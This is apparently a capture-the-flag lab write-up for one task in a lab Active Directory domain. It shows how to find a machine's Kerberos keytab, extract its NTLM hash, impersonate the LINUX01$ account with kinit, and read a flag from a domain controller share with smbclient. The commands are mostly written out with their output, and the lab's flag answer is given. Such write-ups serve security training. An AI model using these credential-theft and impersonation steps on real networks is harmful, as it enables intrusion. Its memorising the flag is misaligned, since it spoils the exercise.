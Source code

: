 8. Use the LINUX01$ Kerberos ticket to read the flag found in \\DC01\linux01. Submit the contents as your response (the flag starts with Us1nG_).
```shell
So we can try to find keytab again because we have high permissions:
> find / -name *keytab* 2>/dev/null
...
/etc/krb5.keytab
...

> python3 /opt/keytabextract.py /etc/krb5.keytab
NTLM HASH : 5aa7d65408b1c36bb2d0892b8e53bce8
Not crackable
Let's impersonate user LINUX01$
> klist -k -t /etc/krb5.keytab
Keytab name: FILE:/etc/krb5.keytab
KVNO Timestamp           Principal
---- ------------------- ------------------------------------------------------
   2 10/04/2022 16:26:55 LINUX01$@INLANEFREIGHT.HTB
   2 10/04/2022 16:26:55 LINUX01$@INLANEFREIGHT.HTB
   

>  kinit 'LINUX01$@INLANEFREIGHT.HTB' -k -t /etc/krb5.keytab
>  klist
Ticket cache: FILE:/root/krb5cc_647401106_Mhqibk
Default principal: LINUX01$@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/09/2025 13:53:44  10/09/2025 23:53:44  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
	renew until 10/10/2025 13:53:44
	
Now we can list share of LINUX01

> smbclient //dc01/linux01 -k  -no-pass
Get flag

> cat flag.txt
Us1nG_KeyTab_Like_@_PRO
```